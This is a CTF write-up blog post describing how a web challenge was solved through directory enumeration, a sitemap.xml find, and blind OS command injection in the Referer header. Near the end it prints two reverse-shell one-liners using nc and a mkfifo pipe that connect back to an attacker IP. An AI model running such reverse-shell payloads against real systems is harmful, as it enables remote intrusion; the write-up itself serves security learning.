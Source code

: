 
# #CTFFriday January 2020 W5 - {WEB}
*January 31, 2020 (2 to 3 PM)*

Hi! I am [Bipin Jitiya](https://win3zz.com), working as security analyst at [Net Square Solutions Pvt. Ltd.](https://www.net-square.com/) In this post I am writing about a CTF which was organized as a part of the [NSConclave 2020](https://nsconclave.net-square.com/) event. Unfortunately I did not play on the day of the event. Many challenges were solved by several players, but none were able to solve one challenge, which was later hosted as **#CTFFriday**. 

This CTF was built by [Bhargav Gajera](https://twitter.com/bhargavgajera10) and organized by [Net Square Solutions Pvt. Ltd.](https://www.net-square.com/) and [NSConclave](https://nsconclave.net-square.com/) on January 31, 2020. So the following is my detailed write-up on how I solved that challenge.

## The game begins!

The task name was **WEB**, where only one URL was provided. As the name suggests, a web application was hosted at the mentioned URL.
 
![1](https://user-images.githubusercontent.com/12781459/203560066-721c4a9a-1c93-4e1b-941e-a132caa772a4.png)

I started with the general web application testing approach. I crawled all the web pages, and started looking for any hints in the **HTML** and **JavaScript** comments (in source code).

![2](https://user-images.githubusercontent.com/12781459/203560144-8e2b3c6f-6230-4a05-83de-ba1c68452b68.png)

I also checked **robots.txt** for files and directories hidden from search engines, but that file does not exist on the target server. After all the analysis, I noticed that there is a **page** parameter that changes its value when navigating to a different page. I quickly tested this for **Directory traversal vulnerability** using some standard payloads but no success.
 
![3](https://user-images.githubusercontent.com/12781459/203560178-ff41213b-666a-4be6-8a5f-12d12b224992.png)

As usual, when I don't get anything, I start **enumeration**. This time also I launched a dictionary based attack against the web server. I simply started **brute force directories and files** in websites using intruder. Obviously we can do this using the **dirb** and **dirsearch** tools. Some CTF challenges also have hints in the "404 Not Found" page, **dirb** and **dirsearch** may not mark those webpages at that time. I did not want to leave any stone unturned. As a result I got a **sitemap.xml** file. It contains an URL entry [https://www.127.0.0.1/index.php?page=admin](https://www.127.0.0.1/index.php?page=admin) 

![4](https://user-images.githubusercontent.com/12781459/203560200-e4229055-a307-46c8-9e6a-f456a1752986.png)

When I opened that URL from the browser, it automatically redirected me to the homepage. This seemed interesting, I intercepted the same request in burp and started the weird test by adding some extra parameters like username and password, started fuzz on those parameters with random payloads, but to no effect.

![5](https://user-images.githubusercontent.com/12781459/203560221-a7ddd3ed-4d83-40d7-9e7c-c422a21cd74e.png)

The response contains the string "**log:**" so added a new Log header with a random string as the value, but again no effect.

![6](https://user-images.githubusercontent.com/12781459/203560252-e35be2c8-409c-433b-8ac8-dc282da0586e.png)

After wasting a lot of time on that, I felt that the response **user requesting from** might be some kind of hint.

I thought **user requesting from** means the previous web page from which a link to the currently requested page was followed. That process is done by the **Referer** request header. I quickly added a **Referer** request header and its value was reflected back into the response body.

![7](https://user-images.githubusercontent.com/12781459/203560282-56a4acd9-5145-41cd-a528-44ed47069888.png)

After fuzzing on the **Referer** request header, I found that it was vulnerable to blind OS command injection. I tried to get the reverse shell using the following command: 

```console
root@ns:~# nc -e /bin/sh 192.168.43.101 7171
```
![8](https://user-images.githubusercontent.com/12781459/203560315-79029206-474c-4b18-944f-f1849b1ff880.png)

It was not connecting. I thought there might be some problem with **nc**. I remembered a [post](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) about how to get reverse shell when wrong version of netcat is installed. I got the reverse shell using following payload:

```console
root@ns:~# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1192.168.43.101 7171 >/tmp/f
```
![9](https://user-images.githubusercontent.com/12781459/203560343-10d0bd0c-9b0e-408f-bc72-7d577e3fdc70.png)

It worked! I got the flag after executing some commands!
 
![10](https://user-images.githubusercontent.com/12781459/203560372-abb5a53b-1368-442d-8b50-8c8236fb13a5.png)


Thanks for reading. Keep learning.

Stay safe and healthy 😇
